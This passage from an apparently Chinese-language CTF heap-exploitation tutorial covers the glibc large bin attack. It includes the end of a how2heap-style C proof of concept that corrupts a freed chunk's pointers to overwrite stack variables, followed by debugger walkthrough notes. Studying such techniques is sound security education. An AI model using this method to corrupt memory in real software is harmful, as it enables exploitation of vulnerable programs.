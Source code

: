 ```c
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```



编译完以后，注意！一定要用 glibc2.25 的 loader，改变 loader 的方法可以看这里：https://www.jianshu.com/p/1a966b62b3d4





pwngdb 走起，开始我们的分析之旅：



![](./figure/large_bin_attack/large_bin_attack1.png)





先跳到这个语句：（比 how2heap 源文件多添加了一个 p4 变量）



![](./figure/large_bin_attack/large_bin_attack2.png)



由于刚 free() 掉了两个 chunk。现在的 unsorted bin 有两个空闲的 chunk



![](./figure/large_bin_attack/large_bin_attack3.png)

要注意的是：



p1 的大小是 `0x330 < 0x3f0` 大小属于 small bin，而 p2 的大小是 `0x410` 属于large bin



![](./figure/large_bin_attack/large_bin_attack4.png) 
